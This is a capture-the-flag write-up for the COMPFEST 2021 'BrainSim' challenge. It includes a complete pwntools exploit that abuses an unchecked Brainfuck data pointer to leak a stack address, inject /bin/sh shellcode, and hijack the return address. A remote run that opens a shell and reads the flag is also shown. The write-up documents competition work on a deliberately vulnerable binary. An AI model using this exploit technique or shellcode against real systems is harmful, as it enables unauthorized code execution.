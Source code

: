 ## BrainSim

> Points: 500
>
> Solves: 1

### Description:
Heyy! So, I found this BF simulator thing. I thought it's hackable-ish? Because my friend told me there's flag file in it. Maybe you could help me while I'm having my breakfast ? Ehehe...

nc 103.152.242.242 29461

Author: xMaximusKl

Hint: Simple BOF using brainfuck, I wonder what you could with that ? Maybe hanging around in a forbidden place ? :)

### Attachments:
```
brainsim-master-public.zip
```

I was able to start the shell in my local environment but couldn't get the flag from the server during the competition time.
After the competition, I managed to start the shell, and when I checked the binary of the server, the binary of the server and the binary of attachment were different.

```
$ ls -l
total 48
-rwxr-xr-x 1 0 0 21064 Sep 12 04:47 BrainSim　　　<--- The size is different.
-rw-r--r-- 1 0 0  2261 Sep 12 04:47 BrainSim.c
```

When I checked with the administrator on Discord, it seems that the administrator forgot to update the attachment.

I got the binaries from the server and checked the difference between the two binaries.
The following parts of the `Interpret` function are different. There is one more `getchar()` in the attachment binary.

```
          case 0x2c:
            iVar2 = getchar();
            mem[mp] = (char)iVar2;
            getchar();                  <----- this part
            ip = ip + 1;
            break;
```

Attach the binary `BrainSim_server` I got from the server.


## Analysis:

This is a challenge with Brainfuck.
Since NX is disabled, launch the shellcode on the stack BoF.

```
$ checksec BrainSim
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

Brainfuck uses the following variables.
```
ip:     Instruction pointer
ip_end: End position of instruction pointer
mp:     Data pointer
brack:  Flag to check the number before and after the bracket
```

Since the range of the value of data pointer`mp` is not checked when executing the Brainfuck code, I can read the value on the stack and write arbitrary data by specifying the following character string.
```
.,[>.,]
```

## Solution:

First I used `.,[>.,]` To leak the stack address (mp = 0 address).

```
0x7fffffffddb0:	0x0000000000000000	0x0000000000000000
0x7fffffffddc0:	0x0000000000000000	0x0000000000000000
0x7fffffffddd0:	0x00007fffffffdee0	0x00007fffffffd5d0　<--- Leak this 0x7fffffffd5d0.
0x7fffffffdde0:	0x00007fffffffde00	0x00005555555556ed
0x7fffffffddf0:	0x00007fffffffdee0	0x3100000000000000
0x7fffffffde00:	0x0000555555555700	0x00007ffff7a03bf7
```

Then I used `,[>,]` to write the shellcode and then change the return address of the `Interpret` function to the leaked stack address.

```
0x7fffffffd5d0:	0x622fb84852d23148	0x485068732f2f6e69  <--- shellcode
0x7fffffffd5e0:	0x48e689485752e789	0x414141050f3b428d
0x7fffffffd5f0:	0x4141414141414141	0x4141414141414141
...
0x7fffffffddb0:	0x4141414141414141	0x4141414141414141
0x7fffffffddc0:	0x4141414141414141	0x4141414141414141
0x7fffffffddd0:	0x4242424242424242	0x4242424242424242
0x7fffffffdde0:	0x4242424242424242	0x00007fffffffd5d0　<--- Change from 0x5555555556ed to 0x7fffffffd5d0
0x7fffffffddf0:	0x00007fffffffdee0	0x3100000000000000
0x7fffffffde00:	0x0000555555555700	0x00007ffff7a03bf7
```

I can start the shellcode by returning from the `Interpret` function to the `main` function with the `Exit` function.


## Exploit code:
```python
from pwn import *

#context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './BrainSim'
elf  = ELF(BINARY)

shellcode = '\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x8d\x42\x3b\x0f\x05'

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "103.152.242.242"
  PORT = 29461
  s = remote(HOST, PORT)
  REMOTE = True
else:
  s = process(BINARY)
  libc = elf.libc
  REMOTE = False

def Interpret_code(code):
  s.sendlineafter("Input : ", "1")
  s.sendlineafter("Code : ", code)

def Make_string(s0):
  s1 = ""
  for i in range(len(s0)):
    s1 += s0[i] + s0[i]
  return s1

if REMOTE:
  # stack leak
  Interpret_code(".,[>.,]")
  s.sendline("A"*0x810+"\x00"*2)

  s.recvuntil("Output: " + "\x00"*0x800)
  s.recv(8)
  stack_leak = u64(s.recv(8))
  print "stack_leak =", hex(stack_leak)

  Interpret_code(",[>,]")
  buf  = shellcode
  buf += "A"*(0x800 - len(buf))
  buf += "B"*0x18
  buf += p64(stack_leak)
  s.sendline(buf)

else:
  # stack leak
  Interpret_code(".,[>.,]")
  s.sendline("AA"*0x810+"\x00")

  s.recvuntil("Output: " + "\x00"*0x800)
  s.recv(8)
  stack_leak = u64(s.recv(8))
  print "stack_leak =", hex(stack_leak)

  Interpret_code(",[>,]")
  buf  = Make_string(shellcode)
  buf += "AA"*(0x800 - len(buf)/2)
  buf += "BB"*0x18
  buf += Make_string(p64(stack_leak)[:-1]) + "\n"
  s.sendline(buf)

s.interactive()

```

## Results:
```bash
mito@ubuntu:~/CTF/COMPFEST_CTF_2021/Pwn_BrainSim/brainsim-master-public/public$ python solve.py r
[*] '/home/mito/CTF/COMPFEST_CTF_2021/Pwn_BrainSim/brainsim-master-public/public/BrainSim'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to 103.152.242.242 on port 29461: Done
stack_leak = 0x7ffd02a75070
[*] Switching to interactive mode

Output: $ ls -l
total 48
-rwxr-xr-x 1 0 0 21064 Sep 12 04:47 BrainSim
-rw-r--r-- 1 0 0  2261 Sep 12 04:47 BrainSim.c
drwxr-xr-x 2 0 0  4096 Sep 12 04:40 bin
drwxr-xr-x 2 0 0  4096 Sep 12 04:40 dev
-r--r--r-- 1 0 0    56 Sep 12 04:47 flag.txt
lrwxrwxrwx 1 0 0     7 Sep 12 04:40 lib -> usr/lib
lrwxrwxrwx 1 0 0     9 Sep 12 04:40 lib32 -> usr/lib32
lrwxrwxrwx 1 0 0     9 Sep 12 04:40 lib64 -> usr/lib64
lrwxrwxrwx 1 0 0    10 Sep 12 04:40 libx32 -> usr/libx32
-rwxr-xr-x 1 0 0   338 Sep 12 04:47 run.sh
drwxr-xr-x 6 0 0  4096 Sep 12 04:40 usr
$ cat flag.txt
COMPFEST13{570PPPP_I7___937_0U7_0f_my_H34d___b6fc1236d6}
```

The administrator sent me the Exploit code, so I attach `exploit.py`.
Thank you for your polite response even after the competition.

## Reference:
https://en.wikipedia.org/wiki/Brainfuck

https://www.notion.so/RCTF-2020-acfcdd0de8534ed0a7caef3549088281
